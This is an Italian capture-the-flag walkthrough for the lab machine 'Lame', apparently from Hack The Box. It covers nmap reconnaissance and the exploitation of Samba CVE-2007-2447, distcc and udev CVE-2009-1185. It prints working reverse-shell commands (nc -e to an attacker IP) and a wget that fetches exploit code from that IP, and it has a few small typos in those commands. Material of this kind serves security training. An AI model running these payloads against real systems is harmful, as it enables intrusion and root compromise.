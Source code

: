 # Lame

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.3
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 21:** File Transfer Protocol \(FTP\) versione 2.3.4
* **Porta 22:** OpenSSH versione 4.7p1
* **Porte 139 e 445:** Samba v3.0.20-Debian

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-1.png" />
</p>

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-2.png" />
</p>

Prima di iniziare a lavorare su queste porte, lancio una scansione nmap più completa in background.

```text
sudo nmap -sC -sV -O -p- -oA /usr/share/nmap/full 10.10.10.3
```

Di seguito il risultato della seconda scansione:

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-3.png" />
</p>

E' possibile notare la presenza di una nuova porta che non veniva mostrata nella scansione precedente.

* **Porta 3632**: distributed compiler daemon distcc versione 1.

Esco da questa fase con quattro differenti punti di ingresso da testare.

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 21 vsftpd v2.3.4

Una semplice ricerca su google mi mostra che questa versione è vulnerabile all'esecuzione di un comando backdoor che viene attivato inserendo una stringa come username che contiene i caratteri “:\)”.
Quando la backdoor viene attivata, la macchina di destinazione apre una shell sulla porta 6200.

E' possibile controllare l'effettiva vulnerabilità mediante uno script nmap.

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-4.png" />
</p>

```text
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-5.png" />
</p>

Dall'output dello script capisco che non è possibile sfruttare questa vulnerabilità.

### 2) Porta 22 OpenSSH v4.7p1

Effettuando una rapida ricercaho trovato questo progetto: [OpenSSH 4.7p1 CVE-2008-5161 Exploit](https://github.com/pankajjarial360/OpenSSH_4.7p1).

Lo script openssh_4.7p1.py controlla la versione del servizio SSH per confermare che sia in esecuzione OpenSSH versione 4.7p1. Successivamente, imposta i parametri necessari per un attacco brute-force utilizzando un elenco di nomi utente e password presi da una specifica wordlist.

Una volta avviato e completato l'exploit, lo script recupera tutte le sessioni attive che sono state create e permette di interagire con esse.

Lancio lo script in background e proseguo con l'analisi dei restanti punti di ingresso.

```text
python openssh_4.7p1.py
```

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-8.png" />
</p>

Questa strada richiedeva troppo tempo e per questo motivo l'esecuzione dello script è stata interrotta.

### 3) Porte 139 e 445 Samba v3.0.20-Debian

Utilizziamo smbclient per accedere al server SMB.

```text
smbclient -L 10.10.10.3
```
* **-L**: lista dei serzi disponibili sul server

Noto che la mia macchina è configurata in maniera tale da non connettersi alle versioni SMB precedenti (per motivi di sicurezza).

Per ovviare a questo problema modifico il comando nel modo seguente:

```text
smbclient -L 10.10.10.3 --option='client min protocol=NT1'
```
<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-6.png" />
</p>

**E' disponibile il login anonimo!**

Ora cerco di capire quali sono i permessi sui file condivisi.

```text
smbmap -H 10.10.10.3
```

* **-H**: IP dell'host

Scopro di avere accesso di tipo READ/WRITE sulla cartella tmp.

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-7.png" />
</p>

Effettuando una ricerca veloce noto che questa versione del servizio è [vulnerabile](https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-41384/Samba-Samba-3.0.20.html).

Cerco di sfruttare la vulnerabilità [CVE-2007–2447](https://www.cvedetails.com/cve/CVE-2007-2447/) che si basa su un problema legato all'invio di specifici metacaratteri.

```text
"/=`nohup " + payload.encoded + "`"
```

Prima di sfruttare la vulnerabilità, analizzo l'ultimo punto di ingresso rimasto.

### 3) Port 3632 distcc v1

Da una ricerca capisco che il servizio è vulnerabile all'esecuzione di codice da remoto.

Esiste uno script nmap che permette di verificare la presenza di questa vulnerabilità.

```text
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

**E' vulnerabile!**

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-9.png" />
</p>

Quindi ho a disposizione due strade per cercare di bucare questa macchina.

## Exploitation

### 1) Samba

Mi metto in ascolto sulla porta 8080.

```text
nc -nlvp 8080
```

Eseguo il login sul client smb.

```text
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'
```

Inserisco la sequenza di metacaratteri menzionata in precedenza.

```text
logon "/=`nohup nc -nv 10.10.14.5 8080 -e /bin/sh`"
```

**Ho ottenuto una shell dalla macchina lame con privilegi root!**

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-10.png" />
</p>

### 2) Distcc

Utilizzo uno script nmap per sfruttare la vulnerabilità citata precedentemente.

Mi metto in ascolto sulla porta 4444.

```text
nc -nlvp 4444
```

Successivamente, utilizzo lo script nmap per dare vita a una reverse shell.

```text
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.5 4444 -e /bin/bash'"
```

Questa volta non abbiamo una shell con privilegi root.

<p align="center">
  <img src="/immagini/immagini-macchine-linux/lame-10.png" />
</p>

Per ottenere i privilegi root provo con la vulnerabilità [CVE 2009–1185](https://www.exploit-db.com/exploits/8572).

```text
searchsploit -m 8572.c
```

Avvio un server sulla mia macchina.

```text
python -m SimpleHTTPServer 9000
```

Trasferisco il file alla macchina lame.

```text
wget http://10.10.14.5:9000/8572.c
```

Compilo l'exploit.

```text
gcc 8572.c -o 8572
```

Per eseguirlo mi servono devo:
* Trovare il PID del servizio
* Creare un file nella cartella /tmp e aggiungere una reverse shell in esso

Per ottenre il PID eseguo il seguente comando:

```text
ps -aux | grep devd
```
Creo il file **run** in /tmp e aggiungo una reverse shell all'interno.

```text
cd /tempo
echo '#/bin/bash' > run
echo 'nc -nv 10.10.14.5' 4445 -e /bin/bash' >> run
```

Mi metto in ascolto sulla porta 4445.

```text
nc -nlvp 4445
```

Eseguo l'exploit.

```text
./8572 2661
```

**Ed ecco l'utenza root!**
